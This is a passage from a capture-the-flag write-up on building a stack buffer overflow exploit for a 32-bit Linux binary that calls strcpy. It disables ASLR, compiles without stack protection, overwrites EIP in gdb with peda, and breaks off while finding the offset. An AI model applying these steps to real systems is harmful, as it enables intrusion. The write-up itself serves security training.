 ![23](/musubi/assets/aqua/23.png)

It seems like the target OS is using **Linux Lite 3.8 32 bits**.

![lite](/musubi/assets/aqua/lite.png)

To mimic the situation of the target machine, we will download the source code for **quotes.c** and **esp.c** as root then debug it using non root user.

![24](/musubi/assets/aqua/24.png)

By default, **ASLR** is enabled. To disable **ASLR**, run the following command.

`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

![25](/musubi/assets/aqua/25.png)

Then compile the binaries using following options.

esp.c : `gcc -fno-stack-protector -z execstack -no-pie esp.c -o esp`

quotes.c ; `gcc -fno-stack-protector -z execstack -no-pie quotes.c -o quotes`

![26](/musubi/assets/aqua/26.png)

Then give sudo privilege to non root user to execute the binary and start debugging.

![27](/musubi/assets/aqua/27.png)

You can use anything you want for the exploit development but in this writeup, I will be using [peda](https://github.com/longld/peda).

Open the binary in gdb by running `sudo gdb -q /root/quotes` .

![28](/musubi/assets/aqua/28.png)

Disassemble the main program using `disas main` .

![29.1](/musubi/assets/aqua/29.1.png)

![29.2](/musubi/assets/aqua/29.2.png)

Disassemble the getname function using `disas getname` and we can see that the method **strcpy** is being called.

![30](/musubi/assets/aqua/30.png)

Let's try to overflow the program by running `r $(python -c 'import sys;sys.stdout.write("A"*100)')` which will print out 100 A's and will be parsed to the program as our **name** variable.

![31](/musubi/assets/aqua/31.png)

It seems like we managed to overwrite the **EIP**. To find the **offset** of the **EIP**, we need to use a pattern of unique strings. Since peda has this functionality, we can use them.

Create a pattern of 100 characters by running `pattern_create 100 pat` . This will store the pattern in a file called **pat**.
